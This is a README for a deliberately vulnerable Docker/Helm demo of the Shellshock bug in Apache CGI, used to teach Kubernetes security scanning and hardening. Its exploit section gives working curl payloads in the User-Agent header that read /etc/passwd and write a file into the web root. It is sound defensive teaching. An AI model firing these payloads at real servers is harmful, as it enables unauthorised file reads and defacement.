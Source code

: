 Shellshockable
=====================

Docker container with Apache 2 / CGI shellshock vulnerability. This builds on an original version by [Thibault Normand](https://github.com/Zenithar)

This demo uses three different versions

* shellshockable:0.1.0 - runs as root and includes shellshock vulnerability
* shellshockable:0.2.0 - runs as non-root but still has the vulnerability
* shellshockable:0.3.0 - runs as non-root, without shellshock vulnerability

## Install from hosted Helm chart

The gh-pages branch of this repo serves a Helm chart that you can install directly (but only do this for demo purposes - DON'T DO THIS ON A REAL CLUSTER):

```sh
helm install shellshockable https://lizrice.github.io/shellshockable/shellshockable-0.1.0.tgz
```

## Clone this repo and install with Helm from local directory


```sh
helm install shell-chart shellshockable/ --values shellshockable/values.yaml
```

## Exploit 

### Port-forwarding

```sh
# Run this in the background or in another terminal window
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:80
```

> TODO: use an ingress so you don't have to re-do the port forwarding every time

> TODO: could also set up a fake domain in /etc/hosts on the host to pretend that this is on a "real" web site

### Regular query

```sh
curl localhost:8081/cgi-bin/shockme.cgi
```

> TODO: consider renaming shockme.cgi so it's more "normal"

### Read files from the host

```sh
curl -A "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd" localhost:8081/cgi-bin/shockme.cgi
```

You can put the user agent string into a variable to make this easier to type live

```sh
export SHOCK="() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd"
curl -A $SHOCK localhost:8081/cgi-bin/shockme.cgi
```

### Create a new page

```sh
curl localhost:8081/liz.html
# doesn't exist yet

curl -A "() { :; }; echo hello > /var/www/html/liz.html" localhost:8081/cgi-bin/shockme.cgi

# Find new file
curl localhost:8081/liz.html
```
### Test bash for Shellshock vulnerability

Get into the vulnerable container:

```sh
kubectl exec -it  $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) bash
```

Test that its version of bash is exploitable:

```sh
env x='() { :; }; echo vulnerable' bash -c "echo test"
```

You'll see the word "vulnerable" only if shellshock is present.

## Build and push to Docker Hub

Skip this step if you want to use my version of the images already pushed to Docker Hub.

```sh
make push
```

> TODO: environment variable for Docker Hub account / registry so it doesn't have to use lizrice (needs changes to makefile and Helm chart)

### Find the vulnerability with Trivy

```sh
trivy image lizrice/shellshockable:0.1.0
```

> Note: the Dockerfile installs the vulnerable package. A vulnerability scanner wouldn't find the vulnerability if you build the vulnerable version of bash from source.


## Starboard

Install [starboard](https://github.com/aquasecurity/starboard) - for example `kubectl krew install starboard`
and  `kubectl starboard init` to create the CRDs.

```sh
kubectl starboard find vulnerabilities deployment/shell-chart-shellshockable
kubectl starboard get vulnerabilities deployment/shell-chart-shellshockable
kubectl starboard polaris
```

Run `octant` to view them there. You should see vulnerabilities (including HIGH severity shellshock) and config issues from Polaris (including failing the runAsNonRoot test).

## Run as non-root

```sh
helm upgrade -f 0.2.0.yaml shell-chart shellshockable
```

This container uses a high numbered port so it can run as nonRoot

```sh
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:8100
```

Re-run polaris and check the test for runAsNonRoot is now passing.

> Note: This config doesn't set readOnlyRootFileSystem, because Apache wants to write files.

## Upgrade to non-vulnerable version

```sh
helm upgrade -f 0.3.0.yaml shell-chart shellshockable
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:8100
```

> Note: for now you need to delete old vulnerability reports otherwise the Octant plugin may not pick up the latest: `k delete vulns --all` will do it

Re-run find vulnerabilities and check this is no longer an issue

